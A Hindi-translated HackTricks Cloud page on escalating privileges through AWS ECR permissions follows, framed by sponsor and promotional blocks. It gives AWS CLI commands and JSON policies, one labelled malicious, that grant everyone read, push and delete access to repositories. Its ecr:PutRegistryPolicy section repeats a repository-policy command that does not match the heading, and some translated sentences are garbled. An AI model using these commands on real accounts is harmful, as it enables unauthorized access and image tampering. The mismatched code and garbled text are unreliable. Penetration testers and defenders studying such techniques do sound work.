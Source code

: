 # AWS - ECR विशेषाधिकार प्रदर्शन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

**`ecr:GetAuthorizationToken`** और **`ecr:BatchGetImage`** के साथ एक हमलावर ECR में लॉगिन कर सकता है और छवियों को डाउनलोड कर सकता है।

छवियों को कैसे डाउनलोड करें के बारे में अधिक जानकारी के लिए:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**संभावित प्रभाव:** यात्रा में संवेदनशील जानकारी को आपत्ति करके अप्रत्यक्ष विशेषाधिकार प्रदर्शन।

### `ecr:GetAuthorizationToken`,`ecr:BatchCheckLayerAvailability`,`ecr:CompleteLayerUpload`,`ecr:InitiateLayerUpload`,`ecr:PutImage`,`ecr:UploadLayerPart`

इन सभी अनुमतियों के साथ एक हमलावर ECR में लॉगिन कर सकता है और छवियां अपलोड कर सकता है। यह उन पर्यावरणों में विशेषाधिकार को बढ़ाने के लिए उपयोगी हो सकता है जहां वे छवियां उपयोग की जा रही हैं।

नई छवि अपलोड/अपडेट करने के लिए कैसे करें, देखें:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

पिछले खंड की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।

### `ecr:SetRepositoryPolicy`

इस अनुमति के साथ एक हमलावर रिपॉजिटरी नीति को **बदल सकता है** ताकि वह खुद को (या यहां तक कि सभी को) **पढ़ने/लिखने की पहुंच** प्रदान कर सके।
उदाहरण के लिए, इस उदाहरण में सभी को पढ़ने की पहुंच दी जाती है।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
फ़ाइल `my-policy.json` की सामग्री:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

पिछले खंड की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।
एक हमलावर ECR सार्वजनिक रिपॉजिटरी की नीति को संशोधित करके अनधिकृत सार्वजनिक पहुंच या अपने अधिकारों को बढ़ाने के लिए उपयोग कर सकता है।
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**पोटेंशियल प्रभाव**: ECR पब्लिक रेपोजिटरी के अनधिकृत सार्वजनिक पहुंच, जिससे किसी भी उपयोगकर्ता को छवियों को पुश, पुल या हटाने की अनुमति मिल सकती है।

### `ecr:PutRegistryPolicy`

इस अनुमति के साथ एक हमलावर यह कर सकता है कि वह खुद को, अपने खाते को (या यहां तक कि सभी को) पढ़ने/लिखने की अनुमति देने के लिए **रजिस्ट्री नीति** में **परिवर्तन** करें।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **फॉलो** करें मुझे **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
